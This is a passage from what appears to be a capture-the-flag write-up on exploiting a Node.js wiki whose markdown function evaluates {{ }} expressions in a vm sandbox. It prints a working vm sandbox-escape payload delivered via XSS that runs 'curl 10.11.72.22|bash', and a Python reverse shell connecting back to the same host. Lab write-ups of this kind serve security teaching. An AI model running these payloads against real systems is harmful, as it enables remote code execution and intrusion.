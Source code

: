```js
    }
  });

  return html;
}

module.exports = { markdownToHtml };
```

Examining the function, first, it replaces some of the markdown syntax with HTML syntax in the passed argument.

The second part is more interesting: it extracts any string between `{{ ... }}` as `code` and runs it in a sandboxed context using the `vm` module, replacing the `{{ ... }}` part with the output of the command—kind of like a templating engine.

Going back to the error we get, it seems whatever is passed in the `markdownContent` parameter in a `POST` request to the `/wiki` endpoint is converted to HTML using this function. Since we did not pass anything, the `markdown` argument being passed to the function was `undefined`, which caused the error.

Looking for recent sandbox escape payloads for the `vm` module, we find one [here](https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd).

We can modify our `XSS` payload in the `xss.js` file with the payload we have found to achieve remote code execution as follows:

```js
async function rce() {
    const formData = new URLSearchParams();
    formData.append('title', 'jxf');
    formData.append('markdownContent', "{{WebAssembly.compileStreaming({[Symbol.for('nodejs.util.inspect.custom')]: (depth, opt, inspect) => {inspect.constructor('return process')().mainModule.require('child_process').execSync('curl 10.11.72.22|bash')}, valueOf: undefined, constructor: undefined}).catch(()=>{})}}");
    const response = await fetch('/wiki', {
        method: "POST",
        headers: {
           'Content-Type': 'application/x-www-form-urlencoded',
        },
        body: formData.toString()
    });
}

rce();
```
{: file="xss.js" }

Also, we create and host our reverse shell payload, which will be downloaded and run by our `XSS` payload:

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
{: .wrap }
